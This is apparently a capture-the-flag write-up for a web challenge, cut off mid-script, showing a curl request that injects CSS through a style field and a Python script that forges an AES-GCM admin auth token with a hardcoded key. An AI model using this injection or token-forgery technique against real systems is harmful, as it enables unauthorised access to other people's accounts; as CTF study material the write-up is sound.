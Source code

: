 I then remembered that with the /api/update_style, I could set the {n} above to anything I want but it seems that my input was being sanitized. 

However it seems that I can still overide the styles of existing css elements on the website. 

So I first tried a simple payload to see if I could make any requests anywhere.

```code
curl -i -X POST http://localhost:8080/api/update_style -H "Authorization: $TOKEN" -H "Content-Type: application/x-www-form-urlencoded" --data-urlencode "style_color=#000}.number-card{content: url('https://www.google.com')}/*"
```
gives me

```ruby
Refused to load the image 'https://www.google.com/' because it violates the following Content Security Policy directive: "img-src 'self'".
```

so it seems that I am unable to make any external request.

So clearly I had to use one of the api requests.

I first initially thought what if a could make a button, make a get request with headers to view my own profile so that when they are clicked by the bot, I get to see which button "viewed" my profile as well as the when it did.

But I could not find a way to set a header for any button. So, instead I tried to map each button to an individual profile then get the views on all those profiles and see when the views were made

After learning css and ALOT of trial and error, I constructed a script that would give me possible equations for an OTP.

Running this python script

```python
import requests

is_local = 0
link_pref = "http://localhost:8080" if is_local else "http://chals.tisc25.ctf.sg:23196"
k = b'\x8f\x7f\xd24\xbaM\x90\xf2^/\xb8\xf3L\xfd\x10D' if not is_local else bytes.fromhex("013ebdbe5471c64dbce8a3cc137c8b6f")

reg_url = f"{link_pref}" + "/api/register"
dummy_pref="riteup"

data = {"username": f"wholetmecook", "password": "12341234"}
r = requests.post(reg_url, data=data, headers={"Content-Type": "application/x-www-form-urlencoded"})

from Crypto.Cipher import AES # pyCryptoDome
from Crypto.Util.number import long_to_bytes, bytes_to_long
from random import randbytes
iv = randbytes(12)
pt = "admin_wholetmecook".encode()
cipher = AES.new(k, AES.MODE_GCM, nonce=iv)
genciphertext, tag = cipher.encrypt_and_digest(pt)
adt = iv.hex() + genciphertext.hex() + tag.hex()

def token_2fa(t):
    print(f'localStorage.setItem("authToken", "{t}");\nlocation.href = "/2fa";')

token_2fa(adt)

dummyaccs = {}

def create_users():
        for j in range(5):
            u = f"{dummy_pref+'r'+str(j)}"
```